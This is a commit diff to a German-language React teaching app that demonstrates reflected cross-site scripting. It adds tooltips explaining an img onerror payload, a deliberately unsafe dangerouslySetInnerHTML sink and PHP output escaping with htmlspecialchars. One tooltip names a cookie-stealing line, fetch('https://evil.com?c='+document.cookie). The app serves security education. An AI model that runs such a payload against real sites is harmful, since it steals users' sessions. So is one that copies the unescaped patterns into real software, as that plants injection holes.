

Before and after one commit to vgattringer/Demonstration, a React (Vite) app in the folder frontend/demonstration-app/: page /cross-site-scripting/schutz in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Tooltips Ergänzungen in XSS

```diff
--- a/frontend/demonstration-app/src/pages/cross-site-scripting/ReflectedXss.tsx
+++ b/frontend/demonstration-app/src/pages/cross-site-scripting/ReflectedXss.tsx
@@ -66,8 +66,9 @@ export function ReflectedXss({ onOutput }: { onOutput: (o: ReflectedOutput) => v
 
       {/* XSS Banner */}
       {xssTriggered && (
-        <div className="rounded-md bg-destructive/10 border border-destructive px-3 py-2 text-xs font-semibold text-destructive">
-          ⚠ XSS erfolgreich! Schadcode wurde ausgeführt.
+        <div className="rounded-md bg-destructive/10 border border-destructive px-3 py-2 text-xs text-destructive">
+          <span className="font-semibold">⚠ XSS erfolgreich! Schadcode wurde ausgeführt.</span>
+          <span className="font-normal"> Ein echter Angreifer könnte damit Session-Cookies stehlen, Tastatureingaben mitschneiden oder den Nutzer auf eine gefälschte Login-Seite umleiten.</span>
         </div>
       )}
 
@@ -109,19 +110,41 @@ const q = searchParams.get("q")
 
       <Arrow />
 
-      <TraceBlock step="③" label="dangerouslySetInnerHTML rendert Payload als HTML">
-        {`// ⚠️ UNSICHER: Parameter wird direkt als HTML gerendert
+      {/* ③ mit Tooltip */}
+      <div className="flex flex-col gap-1">
+        <div className="relative group w-fit">
+          <p className="text-xs font-semibold text-muted-foreground cursor-help underline decoration-dotted underline-offset-2">
+            <span className="mr-1">③</span>dangerouslySetInnerHTML rendert Payload als HTML
+          </p>
+          <div className="absolute bottom-full left-0 mb-2 w-80 rounded-md bg-popover border border-border shadow-md px-3 py-2 text-xs text-popover-foreground invisible group-hover:visible z-50 leading-relaxed">
+            <p className="font-semibold mb-1">Warum ist das unsicher?</p>
+            <p><code className="bg-muted px-0.5 rounded">dangerouslySetInnerHTML</code> schreibt einen rohen HTML-String direkt in den DOM — ohne Prüfung oder Escapierung. Der Name ist Absicht: React warnt dich damit explizit.</p>
+            <p className="mt-1">Der URL-Parameter <code className="bg-muted px-0.5 rounded">q</code> wird direkt als HTML gerendert. Was auch immer in der URL steht, landet 1:1 als echter HTML-Code im Browser.</p>
+          </div>
+        </div>
+        <pre className="bg-muted rounded p-2 text-xs overflow-x-auto whitespace-pre-wrap">{`// ⚠️ UNSICHER: Parameter wird direkt als HTML gerendert
 <div dangerouslySetInnerHTML={{ __html: q }} />
 
 // Gerendert im DOM:
-// <div><img src=x onerror="document.dispatchEvent(...)"></div>`}
-      </TraceBlock>
+// <div><img src=x onerror="document.dispatchEvent(...)"></div>`}</pre>
+      </div>
 
       <Arrow />
 
-      <TraceBlock step="④" label="Browser führt Script aus">
-        {`→ <img> wird in den DOM eingefügt.\n   src="x" schlägt fehl → onerror feuert.\n   CustomEvent "xss-triggered" wird dispatched.\n   React Banner: "⚠ XSS erfolgreich!"`}
-      </TraceBlock>
+      {/* ④ mit Tooltip */}
+      <div className="flex flex-col gap-1">
+        <div className="relative group w-fit">
+          <p className="text-xs font-semibold text-muted-foreground cursor-help underline decoration-dotted underline-offset-2">
+            <span className="mr-1">④</span>Browser führt Script aus
+          </p>
+          <div className="absolute bottom-full left-0 mb-2 w-80 rounded-md bg-popover border border-border shadow-md px-3 py-2 text-xs text-popover-foreground invisible group-hover:visible z-50 leading-relaxed">
+            <p className="font-semibold mb-1">Warum löst das Bild den Angriff aus?</p>
+            <p><code className="bg-muted px-0.5 rounded">src="x"</code> existiert nicht — der Ladeversuch schlägt sofort fehl. Genau das ist gewollt: Der <code className="bg-muted px-0.5 rounded">onerror</code>-Handler feuert bei jedem Ladefehler und führt das Schadskript aus.</p>
+            <p className="mt-1">Ein echter Angreifer würde statt <code className="bg-muted px-0.5 rounded">dispatchEvent(...)</code> z.B. <code className="bg-muted px-0.5 rounded">{"fetch('https://evil.com?c='+document.cookie)"}</code> einsetzen.</p>
+          </div>
+        </div>
+        <pre className="bg-muted rounded p-2 text-xs overflow-x-auto whitespace-pre-wrap">{`→ <img> wird in den DOM eingefügt.\n   src="x" schlägt fehl → onerror feuert.\n   CustomEvent "xss-triggered" wird dispatched.\n   React Banner: "⚠ XSS erfolgreich!"`}</pre>
+      </div>
     </div>
   )
 }
--- a/frontend/demonstration-app/src/pages/cross-site-scripting/XssSchutz.tsx
+++ b/frontend/demonstration-app/src/pages/cross-site-scripting/XssSchutz.tsx
@@ -28,14 +28,17 @@ export default function XssSchutz() {
               <Link to="/cross-site-scripting/iast" className="underline underline-offset-2 hover:text-muted-foreground">interaktiven (IAST)</Link>{" "}
               Application-Security-Testing-Tools in die CI/CD-Pipeline kann dabei helfen,
               Injection-Schwachstellen vor dem Produktivbetrieb zu identifizieren.{" "}
+              <p>
                 <a
                   href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html"
                   target="_blank"
                   rel="noopener noreferrer"
                   className="underline underline-offset-2 hover:text-foreground"
                 >
-                owasp
+
+                  Link: Cross Site Scripting Prevention Cheat Sheet
                 </a>
+              </p>
             </p>
 
             <div className="flex flex-col gap-2">
@@ -64,12 +67,38 @@ export default function XssSchutz() {
               </table>
             </div>
 
-            <div className="flex flex-col gap-2">
-              <pre className="bg-muted rounded p-3 text-xs overflow-x-auto whitespace-pre">{`<!-- Unsicher -->
-<p>Willkommen, <?= $_GET['name'] ?></p>
+            <div className="flex flex-col gap-3">
 
-<!-- Sicher -->
-<p>Willkommen, <?= htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8') ?></p>`}</pre>
+              {/* Unsicher mit Tooltip */}
+              <div className="flex flex-col gap-1">
+                <div className="relative group w-fit">
+                  <p className="text-xs font-semibold text-destructive cursor-help underline decoration-dotted underline-offset-2">
+                    ✗ Unsicher
+                  </p>
+                  <div className="absolute bottom-full left-0 mb-2 w-80 rounded-md bg-popover border border-border shadow-md px-3 py-2 text-xs text-popover-foreground invisible group-hover:visible z-50 leading-relaxed">
+                    <p className="font-semibold mb-1">Warum ist das gefährlich?</p>
+                    <p><code className="bg-muted px-0.5 rounded">$_GET['name']</code> liest den URL-Parameter direkt aus und gibt ihn 1:1 als HTML aus. Ein Angreifer kann dort beliebiges HTML oder JavaScript einschleusen, das der Browser des Opfers sofort ausführt.</p>
+                  </div>
+                </div>
+                <pre className="bg-muted rounded p-3 text-xs overflow-x-auto whitespace-pre">{`<p>Willkommen, <?= $_GET['name'] ?></p>`}</pre>
+              </div>
+
+              {/* Sicher mit Tooltip */}
+              <div className="flex flex-col gap-1">
+                <div className="relative group w-fit">
+                  <p className="text-xs font-semibold text-green-600 cursor-help underline decoration-dotted underline-offset-2">
+                    ✓ Sicher
+                  </p>
+                  <div className="absolute bottom-full left-0 mb-2 w-80 rounded-md bg-popover border border-border shadow-md px-3 py-2 text-xs text-popover-foreground invisible group-hover:visible z-50 leading-relaxed">
+                    <p className="font-semibold mb-1">Was macht htmlspecialchars()?</p>
+                    <p><code className="bg-muted px-0.5 rounded">htmlspecialchars()</code> wandelt Sonderzeichen in HTML-Entities um: <code className="bg-muted px-0.5 rounded">{"<"}</code> → <code className="bg-muted px-0.5 rounded">&amp;lt;</code>, <code className="bg-muted px-0.5 rounded">{">"}</code> → <code className="bg-muted px-0.5 rounded">&amp;gt;</code> usw.</p>
+                    <p className="mt-1"><code className="bg-muted px-0.5 rounded">ENT_QUOTES</code> encodiert zusätzlich einfache und doppelte Anführungszeichen. <code className="bg-muted px-0.5 rounded">'UTF-8'</code> stellt korrekte Zeichenkodierung sicher.</p>
+                    <p className="mt-1">Resultat: Der Browser zeigt den Inhalt als Text — kein HTML wird interpretiert.</p>
+                  </div>
+                </div>
+                <pre className="bg-muted rounded p-3 text-xs overflow-x-auto whitespace-pre">{`<p>Willkommen, <?= htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8') ?></p>`}</pre>
+              </div>
+
             </div>
 
           </CardContent>
```
Lines whose indentation alone changed are shown as unchanged.
